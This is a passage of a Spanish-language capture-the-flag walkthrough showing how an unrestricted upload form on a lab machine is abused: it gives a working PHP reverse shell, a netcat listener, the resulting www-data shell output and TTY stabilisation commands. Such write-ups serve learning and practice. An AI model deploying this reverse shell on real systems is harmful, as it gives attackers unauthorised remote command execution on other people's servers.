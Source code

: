 Vemos que hay un directorio llamado `gallery` si entramos dentro veremos un directorio llamado `/uploads` y si volvemos a entrar dentro veremos un directorio y un archivo `PHP` en el cual se pueden subir archivos, vamos a probar a subir un archivo `.php` que contenga una `reverse shell`.

## Escalate user www-data

```
URL = http://<IP>/gallery/uploads/handler.php
```

> webshell.php

```php
<?php
$sock=fsockopen("<IP>",<PORT>);$proc=proc_open("bash", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);
?>
```

Ahora si lo subimos veremos lo siguiente:

```
Archivo subido exitosamente: webshell.php
```

Vemos que no hay que realizar ningun `bypass` de extensiones ni nada, vamos a irnos a la carpeta de `/uploads/images/` y veremos ahi el archivo que hemos subido.

Antes de meternos dentro, nos pondremos a la escucha de la siguiente forma:

```shell
nc -lvnp <PORT>
```

Ahora si nos metemos en el archivo `webshell.php`.

```
URL = http://<IP>/gallery/uploads/images/webshell.php
```

Y si volvemos a donde tenemos la escucha veremos lo siguiente:

```
listening on [any] 7777 ...
connect to [192.168.177.129] from (UNKNOWN) [172.17.0.2] 51294
whoami
www-data
```

Vemos que hemos obtenido la `shell` como el usuario `www-data` por lo que vamos a sanitizarla.

### Sanitización de shell (TTY)

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

